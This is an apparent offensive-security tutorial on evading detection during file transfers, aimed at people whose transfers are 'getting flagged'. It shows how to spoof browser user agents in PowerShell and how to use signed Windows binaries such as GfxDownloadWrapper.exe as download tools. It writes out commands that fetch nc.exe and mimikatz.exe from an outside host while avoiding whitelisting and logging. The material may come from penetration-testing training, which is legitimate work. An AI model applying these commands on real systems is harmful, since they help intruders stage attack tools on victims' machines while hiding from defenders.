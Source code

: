 
Good attackers **hide**, but great attackers **blend in**.  
If your file transfers are getting flagged, use stealth techniques to avoid detection.

---

## **1. Modify User-Agent Strings**

Defenders often monitor traffic for suspicious user agents such as:

- `curl/7.68.0`
    
- `PowerShell/5.1.14393`
    
- `Microsoft BITS/7.8`
    

Customizing your user agent helps you blend in with normal traffic.

### **List Built-In PowerShell User Agents**

Run:

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | 
Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```

**Examples you’ll see:**

- Chrome: `Mozilla/5.0 ... Chrome/7.0.500.0`
    
- Firefox: `Gecko/20100401 Firefox/4.0`
    
- Safari: `AppleWebKit/533.16`
    

---

### **Use a Fake Chrome User-Agent**

```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

**Server Log Example:**

```
User-Agent: Mozilla/5.0 ... Chrome/7.0.500.0 Safari/534.6
```

This looks **far less suspicious** than `WindowsPowerShell/5.1`.

---

## **2. Living Off the Land (LOLBins & GTFOBins)**

When PowerShell, Netcat, or external tools are blocked, rely on **trusted system binaries**:

- Already **pre-installed**
    
- **Vendor-signed**
    
- **Whitelisted** by security solutions
    

---

### **Example: `GfxDownloadWrapper.exe`**

A legitimate Intel driver utility that can download files:

```cmd
GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```

**Advantages:**

- Likely to bypass application whitelisting
    
- May not trigger logging or alerts
    

**Limitations:**

- Only available on systems with Intel drivers installed.
    

---

## **3. Useful Resources**

- [LOLBAS Project](https://lolbas-project.github.io/) — Windows binaries for living-off-the-land techniques.
    
- [GTFOBins Project](https://gtfobins.github.io/) — Linux/Unix binaries for similar purposes.
    

**Pro Tip:**  
Use `+file-download` or `+file-upload` filters on those sites to quickly find tools for file transfers.

---

## **Summary**

- Change your **user agent** to mimic normal browsers or system tools.
    
- Use **trusted binaries (LOLBins/GTFOBins)** for stealthy file transfers.
    
- Research your target environment and leverage what's already there for **low-noise operations**.
    
